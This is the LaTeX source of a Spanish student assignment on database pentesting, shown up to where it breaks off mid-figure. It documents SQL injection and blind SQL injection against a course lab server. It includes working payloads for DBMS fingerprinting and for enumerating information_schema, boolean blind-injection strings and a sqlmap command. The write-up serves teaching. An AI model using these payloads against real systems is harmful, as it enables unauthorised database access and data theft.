\documentclass[a4paper,oneside]{article}
\usepackage[utf8]{inputenc}
\usepackage[spanish]{babel}
\usepackage[margin=1in]{geometry}
\usepackage{amsmath}
\usepackage{amsfonts}
\usepackage{amssymb}
\usepackage{enumitem}
\usepackage{hyperref} 
\usepackage{graphicx}
\usepackage{url}
\usepackage{breakurl}
\hypersetup{pdftex,colorlinks=true,allcolors=black}
\hypersetup{
    pdftitle={},
    pdfauthor={Pablo Riutort Grande},
    pdfsubject={},
    bookmarksnumbered=true,     
    bookmarksopen=true,         
    bookmarksopenlevel=1,       
    colorlinks=true,            
    pdfstartview=Fit,           
    pdfpagemode=UseOutlines,    % this is the option you were lookin for
    pdfpagelayout=TwoPageRight
}
\usepackage{listings}
\usepackage{xcolor}
\usepackage{hypcap}
\usepackage{caption}
\definecolor{codegreen}{rgb}{0,0.6,0}
\definecolor{codegray}{rgb}{0.5,0.5,0.5}
\definecolor{codepurple}{rgb}{0.58,0,0.82}
\definecolor{backcolour}{rgb}{0.95,0.95,0.92}
\lstdefinestyle{mystyle}{
    backgroundcolor=\color{backcolour},   
    commentstyle=\color{codegreen},
    keywordstyle=\color{magenta},
    numberstyle=\tiny\color{codegray},
    stringstyle=\color{codepurple},
    basicstyle=\ttfamily\footnotesize,
    breakatwhitespace=false,         
    breaklines=true,                 
    captionpos=b,                    
    keepspaces=true,                 
    numbers=left,                    
    numbersep=5pt,                  
    showspaces=false,                
    showstringspaces=false,
    showtabs=false,                  
    tabsize=2
}
\lstset{style=mystyle}
\usepackage{xparse}
\usepackage{comment}
\NewDocumentCommand{\codeword}{v}{%
\texttt{{#1}}
}
\author{Pablo Riutort Grande}
\title{
	Seguridad y pentesting de servidores de datos\\
	\vspace{0.5cm}
	PEC 2\\
	\vspace{1cm}
	\textbf{Práctica de la asignatura}
	\vspace{1cm}\\UOC - MISTIC
}

\begin{document}
\maketitle
\pagebreak
\tableofcontents
\lstlistoflistings
\listoffigures
\listoftables

\pagebreak

\section{SQL Injection}
Para este ejercicio primero comprobaremos que la página web proporcionada es, efectivamente, vulnerable a inyecciones SQL.\\
Hacemos la suposición inicial de que el parámetro id va a ser utilizado en una consulta a la base de datos como:
\begin{lstlisting}[language=SQL]
SELECT assignaturas FROM departamentos WHERE id = $id
\end{lstlisting}
Podemos probar una inyección SQL de cambio de comportamiento positivo (ISQL+) de tal forma que si nos devuelve la misma página podemos inferir que es susceptible a inyección SQL. En nuestro caso, una ISQL+ tendría la siguiente forma en la dirección:
\begin{lstlisting}
http://84.88.58.170/UOC/Alumnos/sqlinjection/?departamento=1 or 1 == 1
\end{lstlisting}

\begin{figure}[h!]
  \centering
  
\includegraphics[scale=0.5]{images/normal.png}\\
  \vspace{.5cm}
  
\includegraphics[scale=0.5]{images/isql+.png}
  \caption{Comprobación de la inyección isql+ en el entorno proporcionado}
  \label{fig:isql}
\end{figure}

Vemos que tras la inyección se nos devuelve la misma página [Fig. \ref{fig:isql}] por lo que se puede deducir que la web es vulnerable a inyecciones SQL.\\

Una vez establecida la posibilidad de inyectar SQL, nos queda determinar con qué sistema de gestión de base de datos (SGBD) estamos tratando, para ello se utilizarán distintas inyecciones que nos permiten determinarlo. Cada inyección intentará determinar la versión de la base de datos dependiendo del sistema que se utilice haciendo la unión con la query de selección de asignaturas con la primera columna a ``null'' y la segunda con el dato que nos interesa para que quede reflejado en el segundo desplegable.\\



\textbf{DB2}\\
\begin{lstlisting}[language=SQL]
UNION SELECT null, GETVARIABLE('SYSIBM.VERSION') FROM SYSIBM.SYSDUMMY1
\end{lstlisting}

\begin{figure}[h!]
  \centering
  
\includegraphics[scale=0.4]{images/version_db2.png}\\
  \caption{Inyección para obtener versión en DB2}
  \label{fig:version_db2}
\end{figure}
El segundo desplegable no muestra datos, por lo que debe tratarse de otro SGBD.\\

\textbf{Oracle}\\
\begin{lstlisting}[language=SQL]
UNION SELECT null, banner FROM v$version;
\end{lstlisting}

\begin{figure}[h!]
  \centering
  
\includegraphics[scale=0.5]{images/version_oracle.png}\\
  \caption{Inyección para obtener versión en Oracle}
  \label{fig:version_oracle}
\end{figure}
El segundo desplegable no muestra datos, por lo que debe tratarse de otro SGBD.\\

\textbf{MSSQL, Postgres \& MySQL}\\
Los tres SGBD dan su versión con
\begin{lstlisting}[language=SQL]
UNION SELECT null, @@version;
\end{lstlisting}

\begin{figure}[h!]
  \centering
  
\includegraphics[scale=0.5]{images/version_mysql.png}\\
  \caption{Inyección para obtener versión en MSSQL, Postgres y MySQL}
  \label{fig:version_mysql}
\end{figure}

Vemos que la versión resultante es 5.1.40-community-log [Fig. \ref{fig:version_mysql}] y tras una rápida búsqueda de esa versión determinamos que se trata de una base de datos MySQL.\\

\newpage
En MySQL existe la tabla information\_schema. Dicha tabla nos proporciona acceso a metadatos de la base de datos, información del servidor MySQL como nombre de las bases de datos, tablas, columnas y privilegios de usuarios \cite{information_schema}.

\begin{lstlisting}[language=SQL, caption={Inyección SQL para sacar las tablas del sistema de base de datos}]
UNION SELECT null, table_name FROM information_schema.tables;
\end{lstlisting}

\begin{figure}[h!]
  \centering
  
\includegraphics[scale=0.4]{images/schema_tables.png}\\
  \caption{Query de obtención de tablas del information\_schema}
  \label{fig:index}
\end{figure}

Con esta query podemos hemos sacado las tablas que tiene la base de datos. Veamos qué usuarios tiene y cuáles son sus permisos

\begin{lstlisting}[caption={Query para los privilegios de usuarios}, language=SQL]
UNION SELECT null, concat(GRANTEE,' ',PRIVILEGE_TYPE,' ' ,IS_GRANTABLE) FROM information_schema.tables;
\end{lstlisting}

\begin{figure}[h!]
  \centering
  
\includegraphics[scale=0.3]{images/user_privileges.png}\\
  \caption{Query de obtención de usuarios y privilegios}
  \label{fig:user_privileges}
\end{figure}

Nos devuelve el usuario ``usqli'' sin privilegios.\\

Pasemos a ver la información de la base de datos que estamos utilizando.

\begin{lstlisting}[caption={Inyección SQL para sacar las tablas de la base de datos en uso}, language=SQL]
UNION SELECT null, database();
UNION SELECT null, table_name FROM information_schema.tables WHERE table_schema = database();
\end{lstlisting}
\begin{figure}[h!]
  \centering
  
\includegraphics[scale=0.5]{images/db_name.png}\\
  \caption{Query de obtención del nombre de la base de datos}
  \label{fig:db_name}
\end{figure}

\begin{figure}[h!]
  \centering
  
\includegraphics[scale=0.3]{images/tables.png}
  \caption{Query de obtención de tablas de la base de datos en uso}
  \label{fig:tables}
\end{figure}

Como resultado la página devuelve 2 tablas que componen la base de datos actual (sqli):
\begin{itemize}
\item asignaturas
\item departamentos
\end{itemize}

Vamos a inspeccionar el contenido de cada una de estas tablas, para ello primero sacaremos las columnas de las mismas a través de la tabla information\_schema.

\begin{lstlisting}[caption={Inyección SQL para sacar las columnas de las tablas de la base de datos en uso}, language=SQL]
UNION SELECT null, concat(TABLE_NAME,':',COLUMN_NAME,':',IS_NULLABLE,':',DATA_TYPE,':',COLUMN_KEY) FROM information_schema.columns WHERE table_schema = database();
\end{lstlisting}

\begin{figure}[h!]
  \centering
  
\includegraphics[scale=0.3]{images/columns.png}
  \caption{Query de obtención de las columnas de las tablas de la base de datos en uso}
  \label{fig:tables}
\end{figure}

Esta query nos devuelve bastante información de las columnas de las diferentes tablas [Fig. \ref{fig:tables}]. Podemos deducir la siguiente tabla [Ver \ref{table:schema}].

\begin{center}
\captionof{table}{Información de las columnas de las tablas extraída de la inyección}
\label{table:schema}
\begin{tabular}{|c|c|c|c|c|}
\hline 
 \textbf{Tabla} & \textbf{Columna} & \textbf{NULL} & \textbf{Tipo de dato} & \textbf{Primary Key} \\ 
\hline 
 asignaturas & f\_departamento & No & integer & Sí \\ 
\hline 
 asignaturas & nombre & No & varchar & Sí \\ 
\hline 
 departamentos & id & No & integer & Sí \\ 
\hline 
 departamentos & departamento & Sí & varchar & No \\ 
\hline
\end{tabular} 
\end{center}

Parece que la página indexa primero por departamento y luego muestra las asignaturas de cada uno, por tanto, si quisiéramos ver el contenido de esas columnas para cada tabla no haría falta hacer uso de la inyección y solo habría que navegar por la página de manera esperada.

\section{Blind SQL Injection}
En esta página se nos presenta un formulario sencillo con un campo de texto que nos determina si el nombre de usuario se encuentra en el sistema [Fig. \ref{fig:blindsql}].

\begin{figure}[h!]
  \centering
  
\includegraphics[scale=0.4]{images/blindsql.png}\\
  \vspace{.5cm}
  
\includegraphics[scale=0.4]{images/blindsql1.png}
  \caption{Uso de la aplicación: Identificar a un usuario dado por nombre}
  \label{fig:blindsql}
\end{figure}

\begin{figure}[h!]
  \centering
  
\includegraphics{images/form_request.png}
  \caption{Envío de datos mediante POST con el formulario}
  \label{fig:form_request}
\end{figure}

Como se puede comprobar, el formulario consiste en hacer un submit del campo llamado ``usuario'' [Fig. \ref{fig:form_request}].
De igual forma que en el anterior ejercicio procederemos primero a determinar si nuestra página es susceptible a inyecciones SQL. Suponiendo otra vez que la query del sistema a base de datos es algo similar a:
\begin{lstlisting}[language=SQL, caption={Suposición de query en el sistema}]
SELECT count(*) FROM usuarios WHERE name = '$usuario'
\end{lstlisting}

Entonces podemos intentar hacer una inyección de SQL (ISQL) de tal forma que si es satisfactoria podemos concluir que sí es vulnerable [Ver \ref{lst:blind_isql1}]
\begin{lstlisting}[language=SQL, caption={Intento de ISQL en el sistema}, label={lst:blind_isql1}]
... WHERE name = '$usuario' OR '1' = '1'
\end{lstlisting}

\begin{figure}[h!]
  \centering
  
\includegraphics[scale=0.8]{images/blindsql2.png}
  \caption{ISQL satisfactorio en el sistema}
  \label{fig:blindsql2}
\end{figure}

Vemos que la inyección ha sido satisfactoria, es decir, la página ha respondido positivamente a la query ya que la segunda parte de la condición ``OR'' es verdadera, esto nos pone ante la situación de Blind SQL.\\

El Blind SQL Injection consiste en realizar ataques ``a ciegas'' sin ver los resultados directos en base de datos. Sin embargo, sí que tenemos una página que nos devuelve si el resultado de la consulta ha sido correcto o incorrecto, por tanto, se puede crear una lógica binaria con estos resultados e ir deduciendo la información poco a poco \cite{owasp}.\\

Por ejemplo, intentaremos deducir el nombre de la base de datos con herramientas del lenguaje SQL.\\
\begin{itemize}
\item DUAL: Se trata de una tabla especial que puede ser usada en queries que no necesitan datos de otras tablas \cite{dual}. Se usará como comodín.
\item ``\_'': El carácter ``\_'' funciona como letra comodín, es decir, cualquier letra.
\item LIKE: El operador de LIKE sirve para usarse en una sentencia con WHERE para buscar patrones en una columna junto con los comodines ``\%'' y ``\_'' \cite{like}.
\item CHAR\_LENGTH: Devuelve el tamaño de un string
\end{itemize}

Una vez establecido esto, podemos hacer ``preguntas'' a nuestra aplicación e intentar deducir cosas interesantes. Primero vamos a intentar deducir el tamaño del nombre de la Base de datos:

\begin{lstlisting}[language=SQL, caption={Esta query determina si el nombre de la base de datos es de más de 3 carácteres de longitud}]
SELECT 1 FROM DUAL WHERE CHAR_LENGTH(database()) > 3
\end{lstlisting}

En una ISQL querremos determinar si la ejecución ha sido satisfactoria, por tanto, tendremos que jugar con la lógica booleana del OR y juntar una AND con una expresión que sea siempre verdadera, de tal forma que
\begin{center}
$ p \lor q \land True $
\end{center}
Será cierto si $q$ es cierto.

\begin{lstlisting}[language=SQL, caption={ISQL para determinar si el nombre de la base de datos es de más de 3 caracteres de longitud}]
' OR (SELECT 1 FROM dual WHERE CHAR_LENGTH(database()) > 3 ) and '1' = '1
\end{lstlisting}

\begin{figure}[h!]
  \centering
  
\includegraphics[scale=0.6]{images/blindsql3.png}
  \caption{Resultado ISQL para comprobar el tamaño de la longitud del nombre de base de datos}
  \label{fig:blindsql3}
\end{figure}

\begin{figure}[h!]
  \centering
  
\includegraphics[scale=0.6]{images/blindsql4.png}
  \caption{ISQL que nos determina el número exacto de caracteres que corresponde a la base de datos}
  \label{fig:blindsql4}
\end{figure}

Modificando la query y tanteando el tamaño se ha deducido que el tamaño del nombre es de exactamente 5 caracteres [Fig. \ref{fig:blindsql4}], entonces, podemos pasar a deducir el nombre mediante fuerza bruta.

\begin{lstlisting}[language=SQL, caption={ISQL para determinar si el nombre de la base de datos empieza por 'a'}]
' OR (SELECT 1 FROM dual WHERE database() like 'a____') AND '1' = '1
\end{lstlisting}

\begin{figure}[h!]
  \centering
  
\includegraphics[scale=0.6]{images/blindsql5.png}
  \caption{ISQL para consultar si el nombre de la base de datos empieza por 'a'}
  \label{fig:blindsql5}
\end{figure}

Podemos automatizar el proceso con la ayuda del siguiente script [\ref{lst:guess}] que resuelve el nombre de manera automática:
\lstinputlisting[language=Python, caption={Script auxiliar para deducción del nombre de la base de datos}, label={lst:guess}]{guess.py}

Con este script mandamos sucesivas peticiones al formulario hasta conseguir el nombre. Iteramos sobre todos los carácteres printables por pantalla y se manda una petición POST con una propuesta de nombre, si obtenemos el gif llamado ``right.gif'' entonces pasamos al siguiente caracter y así sucesivamente hasta que se construye todo el nombre. El nombre resultante es ``bsqli''.

\begin{figure}[h!]
  \centering
  
\includegraphics[scale=1]{images/blindsql6.png}
  \caption{Resultado del script guess.py}
  \label{fig:blindsql6}
\end{figure}

Este proceso puede resultar laborioso para obtener mucha más información de la base de datos, por suerte existen herramientas que automatizan el proceso como sqlmap.\\
sqlmap es una herramienta de pentesting que automatiza el proceso de detección y explotación de SQLI \cite{sqlmap}. Nos permitirá sacar de manera metódica y sencilla alguna información relevante de la base de datos que hay detrás del formulario.\\

\begin{lstlisting}[language=bash]
sqlmap --url http://84.88.58.170/UOC/Alumnos/blindsqlinjection/ --data="usuario=' or '1' = '1'" -p "usuario"
\end{lstlisting}

\begin{figure}[h!]
  \centering
